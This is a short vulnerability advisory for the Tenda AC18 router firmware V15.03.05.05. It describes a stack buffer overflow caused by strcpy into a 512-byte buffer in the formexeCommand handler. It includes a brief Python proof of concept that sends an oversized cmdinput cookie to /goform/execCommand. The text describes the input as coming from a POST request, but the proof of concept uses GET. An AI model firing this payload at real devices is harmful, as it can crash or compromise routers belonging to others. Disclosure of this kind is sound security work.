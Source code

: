 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html
- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formexeCommand` function. The `src` variable receives the `cmdinput` parameter from a POST request and is later assigned to the `s` variable, which is fixed at 512 bytes. However, since the user can control the input of `cmdinput`, the statement `strcpy(s, src);` can cause a buffer overflow. The user-provided `cmdinput` can exceed the capacity of the `s` array, triggering this security vulnerability.

![image-20240308164307690](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308164307690.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookie":"cmdinput=" + "A"*1000}
ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

![image-20240308164235773](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308164235773.png)